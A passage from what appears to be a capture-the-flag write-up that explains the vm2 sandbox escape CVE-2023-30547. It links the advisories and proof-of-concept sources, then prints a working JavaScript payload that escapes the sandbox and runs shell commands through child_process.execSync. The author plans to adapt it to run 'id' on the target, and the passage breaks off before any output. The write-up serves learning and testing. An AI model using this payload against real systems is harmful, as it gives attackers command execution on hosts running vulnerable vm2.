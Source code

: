 #### CVE-2023-30547

The next most straight forward to exploit is
[CVE-2023-30547](https://security.snyk.io/vuln/SNYK-JS-VM2-5426093),
which has to do with raising an exception inside of `handleException()`.
There is [POC
code](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)
linked to on the [GitHub security
issue](https://github.com/patriksimek/vm2/security/advisories/GHSA-ch3r-j5x3-6q2m)
as well as a [POC on
ExploitDB](https://www.exploit-db.com/exploits/51898) (which is
incorrectly linked to on the [CVE-2023-37466 page on
Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5772825)).

The code part looks like:



    err = {};
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };
      
    const proxiedErr = new Proxy(err, handler);
    try {
        throw proxiedErr;
    } catch ({constructor: c}) {
        c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
    }



The only trick here is seeing that it is using the `child_process`
module's `execSync` function to run `touch pwned`, which will create a
`pwned` file in the current directory. That doesn't help much at this
point, as I don't have access to the filesystem to see the result. I'll
want to change it to something I can see, like `id`, and then paste it
in, and the result is the output of that command on Codify:
